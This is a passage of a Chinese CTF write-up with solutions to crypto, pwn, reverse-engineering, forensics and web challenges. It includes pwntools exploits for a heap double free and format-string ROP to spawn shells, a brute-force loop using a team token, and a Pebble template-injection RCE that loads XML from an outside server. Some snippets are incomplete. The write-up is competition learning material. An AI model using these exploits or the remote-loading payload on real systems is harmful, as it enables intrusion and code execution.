                MM[idx, idx_] = poly.monomial_coefficient(monomial) * monomial(X, Y)
    B = MM.LLL()

    found_polynomials = False

    for pol1_idx in range(B.nrows()):
        for pol2_idx in range(pol1_idx + 1, B.nrows()):
            P = PolynomialRing(QQ, 'a,b', 2)
            a, b = P.gens()
            pol1 = pol2 = 0
            for idx_, monomial in enumerate(monomials):
                pol1 += monomial(a,b) * B[pol1_idx, idx_] / monomial(X, Y)
                pol2 += monomial(a,b) * B[pol2_idx, idx_] / monomial(X, Y)

            # resultant
            rr = pol1.resultant(pol2)
            # are these good polynomials?
            if rr.is_zero() or rr.monomials() == [1]:
                continue
            else:
                print(f"found them, using vectors {pol1_idx}, {pol2_idx}")
                found_polynomials = True
                break
        if found_polynomials:
            break

    if not found_polynomials:
        print("no independant vectors could be found. This should very rarely happen...")


    PRq = PolynomialRing(QQ, 'z')
    z = PRq.gen()
    rr = rr(z, z)
    soly = rr.roots()[0][0]

    ppol = pol1(z, soly)
    solx = ppol.roots()[0][0]
    return solx, soly

if __name__ == '__main__':
    n = 
    e = 

    alpha = ZZ(e).nbits() / ZZ(n).nbits()

    X = 2 ** int(nbits*(alpha+delta-2)+3)
    Y = 2 ** int(nbits*beta+3)

    r = 100
    c = Mod(n,2^r)
    s = c.nth_root(2,all=True)
    print(s)
    v = []
    a1 = []
    a2 = []
    alp = 1.997
    eps = 0.7
    beta = 0.1

    for i in s:
        u = Mod(int(i),2^(2*r))
        v.append(2*u+(n-u^2)*u^-1)
        a1.append(int(v[-1])/2^(2*r-1)%e)
        a2.append((-(n+1)^2+int(v[-1])^2)/2^(4*r)%e)
        a3 = (-1/2^(4*r)%e)
    R.<x,y> = PolynomialRing(Zmod(e))
    for i in range(4):
        
        x, y = map(int, attack2(n, e, 4, 4, X, Y, a1[i],a2[i],a3))
        p_minus_q = y
        p_plus_q = iroot(p_minus_q**2 + 4 * n, 2)[0]

        p = (p_minus_q + p_plus_q) // 2
        q = n // p

        print(p,q)
```

## guess_game

需要做的事儿，比较好懂，80 次交互去打出部分 key，key 总量为 80，要求打出 56 个 bit。（或者说打出 32 个 bit，剩下的 48bit 随机猜 55 分）

```python
op = '''1.get hint\n2.start game\n'''
count = 0
success = 0
key = int.from_bytes(urandom(10), "big")
guess = list(map(int, list(bin(key)[2:].zfill(80))))
game = cipher(key)
while True:
    print(op)
    user_input = int(input(">").strip())
    if user_input == 1:
        if count < 80:
            pt = int(input("pt in hex:"), 16)
            hint = game.hint(pt)
            count += 1
            print(hint.hex())
        else:
            print("Sorry~")
    elif user_input == 2:
        for i in range(len(guess)):
            user_guess = int(input(f"Round {i + 1} > ").strip())
            if user_guess == guess[i]:
                print("Right!")
                success += 1
            else:
                print("Wrong!")
        if success > 0.7 * len(guess):
            print(flag)
        else:
            print("Failed!")
            exit(-1)
    else:
        exit(-1)
```

cipher 类

```python
class cipher:
    def __init__(self, key, rounds=4):
        self.key = key
        self.rounds = rounds
        self.sbox = [0xc, 0x5, 0x6, 0xb, 0x9, 0x0, 0xa, 0xd, 0x3, 0xe, 0xf, 0x8, 0x4, 0x7, 0x1, 0x2]
        self.pbox = [0, 16, 32, 48, 1, 17, 33, 49, 2, 18, 34, 50, 3, 19, 35, 51, 4, 20, 36, 52, 5, 21, 37, 53, 6, 22, 38, 54, 7, 23, 39, 55, 8, 24, 40, 56, 9, 25, 41, 57, 10, 26, 42, 58, 11, 27, 43, 59, 12, 28, 44, 60, 13, 29, 45, 61, 14, 30, 46, 62, 15, 31, 47, 63]
        self.rk = self.genrk(self.key)
    
    def substitution(self, state):
        output = 0
        for i in range(16):
            output += self.sbox[state >> (i*4) & 0xF] << (i*4)
        return output
    
    def permutation(self, state):
        output = 0
        for i in range(64):
            output += ((state >> i) & 0x1) << self.pbox[i]
        return output
    
    def genrk(self, key):
        rk = []
        for i in range(1, self.rounds+1):
            rk.append(key >> 16)
            key = ((key & (2**19-1)) << 61) + (key >> 19)
            key = (self.sbox[key >> 76] << 76)+(key & (2**76-1))
            key ^= i << 15
        return rk
    
    def addrk(self, state, rk):
        return state ^ rk
    
    def encrypt(self, pt):
        ct = b""
        state = pt
        for i in range(self.rounds-1):
            state = self.addrk(state, self.rk[i])
            state = self.substitution(state)
            state = self.permutation(state)
        state = self.addrk(state, self.rk[-1])
        ct += long_to_bytes(state)
        return ct

    def hint(self, pt):
        return self.encrypt(pt)
```

大概流程是 64bit 为一个加密块，分为 16 个 S 盒，XSP 一轮一共 3 轮，S 盒的差分性质和线性性质都很好

硬爆可以出 1w 次以内几率很大 脚本如下

```python
from pwn import *

context.log_level = "ERROR"
maxn = 0
for _ in range(1000):
    p = remote('47.97.69.130',22333)

    p.recvuntil(b'team token:')
    p.sendline(b'icq234edf69a7ddef70dbd8f0051e94c')
    p.recvuntil(b'>')
    p.sendline(b'2')
    for i in range(80):
        p.sendline(b'1')
    a = p.recvuntil(b"80")
    a += p.recvline()
    a += p.recvline()
    n = a.decode().count("Right")
    print()
    if n > maxn:
        maxn = n
    if b'Failed' not in a:
        print(a)
        break
print(maxn)
```

## not only rsa

```python
n = 6249734963373034215610144758924910630356277447014258270888329547267471837899275103421406467763122499270790512099702898939814547982931674247240623063334781529511973585977522269522704997379194673181703247780179146749499072297334876619475914747479522310651303344623434565831770309615574478274456549054332451773452773119453059618433160299319070430295124113199473337940505806777950838270849
e = 641747
c = 730024611795626517480532940587152891926416120514706825368440230330259913837764632826884065065554839415540061752397144140563698277864414584568812699048873820551131185796851863064509294123861487954267708318027370912496252338232193619491860340395824180108335802813022066531232025997349683725357024257420090981323217296019482516072036780365510855555146547481407283231721904830868033930943

c = Mod(c,p^5)
s = c.nth_root(e,all=True)

for i in s:
    assert pow(i,e,n) == c
    a = long_to_bytes(int(i))
    c1 = ''
    for i in a:
        if i >= 32 and i <=125:
            c1 += chr(i)
        else:
            break
    if len(c1) >= 10:
        print(c1)
```

# Pwn

## chatting

逆了一下，用户名的储存比较复杂而且难以利用，且一路上都在申请释放各种堆块。主要操作的是：自己给自己 message，可以申请指定大小堆块；read 可以输出当前用户收到的所有 message，且若该 message 是自己发送给自己且当前用户的用户名长度大于 100 则 free 掉该 message 而不会置零。

容易发现这里存在 double free。这里采用将 tcache 塞满在 fastbin 中 double free 的手法。

同一个链表上第二次 double free 的时候会自动把堆地址输出来。利用 malloc_consolidate 机制放进 unsorted bin 拿 libc。由于 ogg 好像都不行于是打 free hook。

exp:

```python
from pwn import *

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='chatting'
libc_name='libc-2.27.so'

libc=ELF("./"+libc_name)
elf=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
    #p=process("./"+binary_name,env={"LD_PRELOAD":"./"+libc_name})
    #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./"+binary_name])
    #p = process(argv=["./qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "-g", "1234", "./"+binary_name])
else:
    p=remote("101.200.122.251",14509)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def leak_canary():
    if(context.arch=='i386'):
        return u32(p.recv(7).rjust(8,b'\x00'))
    else :
        return u64(p.recv(7).rjust(8,b'\x00'))

def add(name):
    sla(": ","add")
    sla(": ",name)

def fre(name):
    sla(": ","delete")
    sla(": ",name)

def swi(name):
    sla(": ","switch")
    sla("to: ",name)

def mes(nam,siz,cot):
    sla(": ","message")
    sla(": ",nam)
    sla(": ",str(siz))
    sla("Content: ",cot)

def red():
    sla(": ","read")

def lis():
    sla(": ","listuser")

p.sendline(b'a'*0x100)

add(b'b'*0x100)
add(b'c'*0x100)
add(b'A'*0x100)

for i in range(7):
    mes(b'a'*0x100,0x70,b'z'*0x70)

swi(b'b'*0x100)
mes(b'b'*0x100,0x70,b'y'*0x70)
swi(b'c'*0x100)
mes(b'c'*0x100,0x70,b'x'*0x70)
swi(b'a'*0x100)
red()
swi(b'b'*0x100)
red()
swi(b'c'*0x100)
red()
swi(b'b'*0x100)
red()
swi(b'c'*0x100)
red()
p.recvuntil(": ")

heap_addr = leak_address()
success("heap_addr:"+hex(heap_addr))

swi(b'A'*0x100)

for i in range(7):
    mes(b'A'*0x100,0x70,b'z'*0x70)

swi(b'b'*0x100)
mes(b'b'*0x100,0x70,p64(0) + b'z'*0x68)
swi(b'c'*0x100)
mes(b'c'*0x100,0x70,p64(0) + b'z'*0x68)
add("dddd")
swi("dddd")
mes("dddd",0x70,b'z'*0x70)
swi(b'A'*0x100)
red()
swi(b'b'*0x100)
red()

mes(b'b'*0x100,0x4f0,b'z'*0x4f0)
swi("dddd")
red()
p.recvuntil(": ")
malloc_hook = leak_address() - 208 - 0x10
libc_base = malloc_hook - libc.symbols["__malloc_hook"]
free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.symbols["system"]

success("libc_base:"+hex(libc_base))
# z()
# pause()

add(b'D'*0x100)
swi(b'D'*0x100)

for i in range(7):
    mes(b'D'*0x100,0x50,b'z'*0x50)

add(b'B'*0x100)
add(b'C'*0x100)
swi(b'B'*0x100)
mes(b'B'*0x100,0x50,b'y'*0x50)
swi(b'C'*0x100)
mes(b'C'*0x100,0x50,b"/bin/sh\x00" + b'x'*0x48)
swi(b'D'*0x100)
red()
swi(b'B'*0x100)
red()
swi(b'C'*0x100)
red()
swi(b'B'*0x100)
red()

swi(b'D'*0x100)
for i in range(7):
    mes(b'D'*0x100,0x50,b"/bin/sh\x00" + b'z'*0x48)

swi(b'B'*0x100)
mes(b'B'*0x100,0x50,p64(free_hook) + b'a'*0x48)
mes(b'B'*0x100,0x50,b'a'*0x50)
mes(b'B'*0x100,0x50,b'a'*0x50)

mes(b'B'*0x100,0x50,p64(system) + b'a'*0x48)
swi(b'D'*0x100)
red()

p.interactive()
```

## simpleinterpreter

题目实现了一个 c 语言编译器，限制了函数使用，随便定义一个变量输出地址试了下，发现变量存在 mmap 上，因此跟 libc 基址偏移固定，直接修改__free_hook 为 system，然后 free 一个/bin/sh 拿到 shell

exp:

```python
#encoding: utf-8
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='simpleinterpreter'
libc_name='libc-2.27.so'

libc=ELF("./"+libc_name)
elf=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
    #p=process("./"+binary_name,env={"LD_PRELOAD":"./"+libc_name})
    #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./"+binary_name])
    #p = process(argv=["./qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "-g", "1234", "./"+binary_name])
else:
    p=remote('101.200.122.251',13410)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

# variables

# gadgets

# helper functions

op32 = make_packer(32, endian='big', sign='unsigned') # opposite p32
op64 = make_packer(64, endian='big', sign='unsigned') # opposite p64

# main

system = libc.sym["system"]
free_hook = libc.sym["__free_hook"]
success("system:"+hex(system))
success("free_hook:"+hex(free_hook))
#pause()
code = """#include<stdio.h>
int main(){
    void *ptr;
    printf("%p\n",&ptr);
    printf("libc_base: %p\n",&ptr-731643);
    printf("system: %p\n",&ptr-731643+40580);
    printf("free_hook: %p\n",&ptr-731643+514845);
    *(&ptr-731643+514845) = &ptr-731643+40580;
    ptr = "/bin/sh";
    free(ptr);
    printf("OK!\n");
}
"""

#z()
#pause()

sa("Code size: ",str(len(code)))
sla("Please give me the code to interpret:",code)

ia()
```

# 强网先锋

## ez_fmt

格式化字符串修改 printf 的返回地址，使得能重复执行格式化字符串，利用重复格式化字符串在 main 函数返回地址处写上 ROP 链，用 execve("/bin/sh",0,0)来 getshell

exp:

```python
from pwn import *

context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='ez_fmt'
libc_name='libc-2.31.so'

libc=ELF("./"+libc_name)
elf=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
    #p=process("./"+binary_name,env={"LD_PRELOAD":"./"+libc_name})
    #p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "./"+binary_name])
    #p = process(argv=["./qemu-arm", "-L", "/usr/arm-linux-gnueabihf", "-g", "1234", "./"+binary_name])
else:
    p=remote('47.104.24.40',1337)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def leak_canary():
    if(context.arch=='i386'):
        return u32(p.recv(7).rjust(8,b'\x00'))
    else :
        return u64(p.recv(7).rjust(8,b'\x00'))

og = [0xe3afe,0xe3b01,0xe3b04,0xe3cf3,0xe3cf6]

ru('There is a gift for you ')
stack_addr = int(p.recv(14),16)
ret_addr = stack_addr - 8
main_ret_addr = stack_addr + 104

payload = "%19$p|%8$p%234c%9$hhn".ljust(24,"\x00")+p64(ret_addr)
p.send(payload)

p.recvline()

libc_base = int(p.recv(14),16) - (libc.sym['__libc_start_main']+243)
one_gadget = libc_base + og[4]
pop_rdi = libc_base + 0x23b6a
pop_rsi = libc_base + 0x2601f
ret = libc_base + 0x22679
system = libc_base + libc.sym['system']
execve = libc_base + libc.sym['execve']
success("ret_addr: "+hex(ret_addr))
success("libc_base: "+hex(libc_base))
success("one_gadget: "+hex(one_gadget))
success("main_ret_addr: "+hex(main_ret_addr))
success("pop_rdi: "+hex(pop_rdi))

# pop_rdi
payload = "%5c%10$hhn%{}c%11$hhn".format((pop_rdi&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rdi>>8)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+1)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rdi>>16)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+2)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rdi>>24)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+3)
p.send(payload)

# p64(bin_sh)
payload = "%5c%10$hhn%{}c%11$hhn".format((stack_addr&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+8)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((stack_addr>>8)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+9)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((stack_addr>>16)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+10)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((stack_addr>>24)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+11)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((stack_addr>>32)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+12)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((stack_addr>>40)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+13)
p.send(payload)

# pop_rsi
payload = "%5c%10$hhn%{}c%11$hhn".format((pop_rsi&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+16)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rsi>>8)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+17)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rsi>>16)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+18)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rsi>>24)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+19)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rsi>>32)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+20)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((pop_rsi>>40)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+21)
p.send(payload)

# p64(0)

payload = "%5c%10$hhn%251c%11$hhn".ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+28)
p.send(payload)

# execve
payload = "%5c%10$hhn%{}c%11$hhn".format((execve&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+32)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((execve>>8)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+33)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((execve>>16)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+34)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((execve>>24)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+35)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((execve>>32)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+36)
p.send(payload)

payload = "%5c%10$hhn%{}c%11$hhn".format(((execve>>40)&0xff)-5).ljust(32,"\x00")+p64(ret_addr)+p64(main_ret_addr+37)
p.send(payload)

#z('b *0x401262')
#pause()
p.send('/bin/sh\x00')

p.interactive()
```

## Speed up

代码对应 formula 可以在 OEIS 找到 [A244060](https://oeis.org/A244060)

给出的 list 已经到 `n=30`。直接抄 `n=27` 对应的结果算 sha256 即可

## 石头剪刀布

人工智障，预测模型是根据用户输入来输出的，只要用户输入序列不变，输出结果就不变，因此直接一轮轮打下去，输了就根据 ai 出的修改即可

exp:

```python
#encoding: utf-8
from pwn import *
import time

ans  = ['0' for _ in range(100)]

while True:
    i=0
    p = remote('8.147.131.244', 37493)
    while True:
        p.sendlineafter('请出拳（0 - 石头，1 - 剪刀，2 - 布）：',ans[i],timeout=3)
        p.recvline(timeout=3)
        tmp = p.recvline(timeout=3)
        res = p.recvline(timeout=3)
        if i>=5:
            print(res)
        if res == '你赢了！\n' :
            i+=1
            p.recvuntil("你的分数：",timeout=3)
            score = p.recvline().strip('\n')
            print("轮次：%s|分数：%s" % (i,score))
            if int(score) >= 260:
                time.sleep(2)
                print(p.recv())
                pause()
            continue
        else:
            if i < 5:
                i+=1
                continue
            if "石头" in tmp:
                ans[i] = '2'
            elif "剪刀" in tmp:
                ans[i] = '0'
            else:
                ans[i] = '1'
            print(ans)
            p.close()
            break
```

## Babyre

魔改 XTEA，tls 里修改了 key 和密文数组

```cpp
#include <stdio.h>
#include <stdint.h>

uint32_t key[4] = { 'b', 'o', 'm', 'b'};
#include <Windows.h>

void fuck_sub_140011DF0(DWORD* a1, DWORD* a2)
{
    __int64 result; // rax
    unsigned int v3; // [rsp+44h] [rbp+24h]
    int i; // [rsp+64h] [rbp+44h]
    int j; // [rsp+84h] [rbp+64h]

    v3 = 0xd192c263;
    for (i = 0; i < 4; ++i)
    {
        for (j = 0; j < 33; ++j)
        {
            v3 += 0x77BF7F99;
            *a2 -= (((32 * *a1) ^ (*a1 >> 4)) + *a1) ^ (v3 + key[(v3 >> 11) & 3]);
            *a1 -= (((32 * *a2) ^ (*a2 >> 4)) + *a2) ^ (v3 + key[v3 & 3]) ^ v3;
        }
    }
    return;
}

int main()
{
    uint32_t *v;
    uint8_t enc[100] = { 0xE0, 0xF3, 0x21, 0x96, 0x97, 0xC7, 0xDE, 0x89, 0x9B, 0xCA,
  0x62, 0x8D, 0xB0, 0x5D, 0xFC, 0xD2, 0x89, 0x55, 0x1C, 0x42,
  0x50, 0xA8, 0x76, 0x9B, 0xEA, 0xB2, 0xC6, 0x2F, 0x7C, 0xCF,
  0x11, 0xDE };
    
    for (int i = 0; i < 32; i++)
        enc[i] ^=  i;

    for (int i = 0; i < 4; i++)
    {
        fuck_sub_140011DF0((DWORD*)(enc+i*8), (DWORD*)(enc + i*8+4));
    }   
    printf("解密后的数据：%s\n", enc);
    return 0;
}
```

W31com3_2_Th3_QwbS7_4nd_H4v3_Fun

## 找到 PNG 了吗

linux 内存取证，符号表做半天都失败

还是 strings，暴力肉眼搜索

一般 linux 内存取证一定会涉及到命令的运行

所以搜了几个常见指令，尝试找 bash_history


搜 sudo 的时候发现了在用 lime 做内存镜像

同时获得了用户名 yuren@ubuntu

改搜用户名


发现执行了 bash 后返回了一串

继续搜，成功定位到源码


知道文件被 rc4 加密了，秘钥是 do_not_care

然后题目描述说了是 png

rc4 是个流密码，png 前 16 字节又是不变的，那直接反向加密一下，看一下前 16 字节的密文


再搜一下


果然搜到了，那就往下多复制点，解密


## Trie

先 insert 255.255.255.255 ，结束时 tot 是 0x20

再 insert 0.0.0.0 ，因为二进制和前面的全不一样，所以结束时 tot 为 0x40

这样读 end + 0x40 时就是 secret 的头 4 字节

需要读 end + 0x41 时，可以 insert 一个只有最后一位不同的 ip ，这样只会向最后一个 trie[2 * v4 + 1] 中写入 0x41

以此类推可构造出读所有答案

flag{H0w_t0_B3c0m3_a5_str0ng_@s_y0u_guys}

## Ezre

交替换表 base64 编码解码，断下拿表

encode(402A0B)

l+USN4J5Rfj0TaVOcnzXiPGZIBpoAExuQtHyKD692hwmqe7/Mgk8v1sdCW3bYFLr

decode(sub_401250)

FGseVD3ibtHWR1czhLnUfJK6SEZ2OyPAIpQoqgY0w49u+7rad5CxljMXvNTBkm/8

encode

Hc0xwuZmy3DpQnSgj2LhUtrlVvNYks+BX/MOoETaKqR4eb9WF8ICGzf6id1P75JA

decode

pnHQwlAveo4DhGg1jE3SsIqJ2mrzxCiNb+Mf0YVd5L8c97/WkOTtuKFZyRBUPX6a

encode

plxXOZtaiUneJIhk7qSYEjD1Km94o0FTu52VQgNL3vCBH8zsA/b+dycGPRMwWfr6

最后还有个异或，断下拿数组

0x4021D4 arr.append(get_reg_value('rax'))

检测 TracerPid，对比较的数组异或 0x34


## hello spring

依赖里有 pebble


3.1.5 的正好有 rce 漏洞

[https://github.com/Y4tacker/Web-Security/issues/3](https://github.com/Y4tacker/Web-Security/issues/3)

传个文件到 /tmp/，然后根据时间戳访问对应的文件

```python



{{ yyy.setConfigLocation("http://111.229.88.145:8888/exp.xml") }}
{{ yyy.refresh() }}
```

然后测试发现存在过滤（附件和远程代码不一样。。。。。）

用加号绕下

```python
import requests
from datetime import datetime
from email.utils import parsedate_to_datetime
import re

baseurl = "http://eci-2ze6h6pvh5v63fnfsc5y.cloudeci1.ichunqiu.com:8088"

proxy = {"http": "http://127.0.0.1:8080"}

def upfile():

    payload = """hello
    
    
    {{ yyy.setConfigLocation("http://111.229.88.145:8888/exp.xml") }}
    {{ yyy.refresh() }}bbbb"""
    data = {"content": payload}
    
    result = requests.post(baseurl + "/uploadFile", data=data, proxies=proxy)
    print(result.text)
    headers = result.headers.get('Date')
    server_time = parsedate_to_datetime(headers)
    formatted_time = server_time.strftime("%Y%m%d_%H%M%S")
    file_name = "file_" + formatted_time + ".pebble"
    match = re.search(r'file_\d{8}_(\d{6})\.pebble', file_name)
    time_part = match.group(1)
    return time_part

def access(ti):
    res = requests.get(baseurl + f"?x=file_20231217_{str(ti)}", proxies=proxy).text
    print(res)
    return res

if __name__ == "__main__":
    
    ti = upfile()
    print(ti)
    access(ti)
```


